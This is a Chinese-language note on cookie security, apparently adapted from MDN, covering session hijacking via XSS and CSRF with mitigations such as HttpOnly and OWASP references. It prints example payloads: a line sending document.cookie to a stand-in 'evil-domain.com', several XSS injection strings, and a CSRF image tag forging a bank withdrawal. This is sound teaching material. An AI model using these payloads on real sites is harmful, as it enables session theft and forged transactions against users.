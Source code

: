 # 安全
::: warn
当机器处于不安全环境时，切记不能通过HTTP Cookie存储、传输敏感信息。
:::

[会话劫持和XSS](#1)  
[跨站请求伪造（CSRF）](#2)  
[more](#3)  


## <span id="1">会话劫持和XSS</span>
在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行XSS攻击。
```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
<body onload="alert('test1')"/>
<img src="http://url.to.file.which/not.exist" onerror="alert(document.cookie);">
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg"/>
```
HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。

## <span id="2">跨站请求伪造（CSRF）</span>
维基百科已经给了一个比较好的CSRF例子。比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：
```javascript
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```
当你打开含有了这张图片的HTML页面时，如果你之前已经登录了你的银行帐号并且Cookie仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：
- 对用户输入进行过滤来阻止XSS；
- 任何敏感操作都需要确认；
- 用于敏感信息的Cookie只能拥有较短的生命周期；
- 更多方法可以查看[OWASP CSRF prevention cheat sheet](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)。

>https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies

## <span id="3">more</span>
[Cross-site Scripting (XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

[Cross-Site Request Forgery (CSRF)](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_%28CSRF%29)
